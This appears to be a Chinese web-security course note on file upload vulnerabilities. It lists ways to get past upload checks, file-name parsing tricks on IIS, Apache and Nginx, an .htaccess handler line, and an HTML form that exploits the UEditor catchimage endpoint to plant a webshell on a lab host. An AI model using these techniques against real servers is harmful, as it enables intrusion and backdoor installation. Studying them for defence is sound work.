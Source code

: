 # day33WEB攻防-通用漏洞&文件上传&中间件解析漏洞&编辑器安全

![day33](/Users/yangluchao/Documents/GitHub/security/image/day33.png)

```
#知识点：
1、中间件安全问题
2、中间件文件上传解析
3、Web应用编辑器上传

#详细点：
1、检测层面：前端，后端等
2、检测内容：文件头，完整性，二次渲染等
3、检测后缀：黑名单，白名单，MIME检测等
4、绕过技巧：多后缀解析，截断，中间件特性，条件竞争等

#本章课程内容：
1、文件上传-CTF赛题知识点
2、文件上传-中间件解析&编辑器安全
3、文件上传-实例CMS文件上传安全分析

#前置：
后门代码需要用特定格式后缀解析，不能以图片后缀解析脚本后门代码(解析漏洞除外)
如：jpg图片里面有php后门代码，不能被触发，所以连接不上后门
如果要图片后缀解析脚本代码，一般会利用包含漏洞或解析漏洞，还有.user.ini&.htaccess

```

演示案例：

------

-   中间件文件解析-IIS&Apache&Nginx

-   Web应用编辑器-Ueditor文件上传安全

-   实例CMS&平台-中间件解析&编辑器引用

    ```
    #中间件文件解析-IIS&Apache&Nginx
    -IIS 6 7 文件名 目录名
    1、文件名：x.asp;.x.jpg
    2、目录名：x.asp/x.jpg
    3、IIS7.X与Nginx解析漏洞一致
    
    -Apache 换行解析 配置不当
    1、换行解析-CVE-2017-15715
    其2.4.0~2.4.29版本中存在一个解析漏洞
    2、配置不当-.htaccess配置不当
    AddHandler application/x-httpd-php .php
    
    -Nginx  文件名逻辑 解析漏洞
    1、文件名逻辑-CVE-2013-4547 
    影响版本：Nginx 0.8.41 ~ 1.4.3 / 1.5.0 ~ 1.5.7
    2、解析漏洞-nginx.conf配置不当
    由此可知，该漏洞与Nginx、php版本无关，属于用户配置不当造成的解析漏洞。
    
    #Web应用编辑器-Ueditor文件上传安全
    <form action="http://192.168.46.139/net/controller.ashx?action=catchimage" enctype="multipart/form-data" method="POST">
    <p>shell addr: <input type="text" name="source[]" /></p>
    <input type="submit" value="Submit" /> 
    </form>
    
    #实例CMS&平台-中间件解析&编辑器引用
    1、中间件配置不当导致文件被恶意解析
    2、CMS源码引用外部编辑器实现文件上传
    
    ```

    
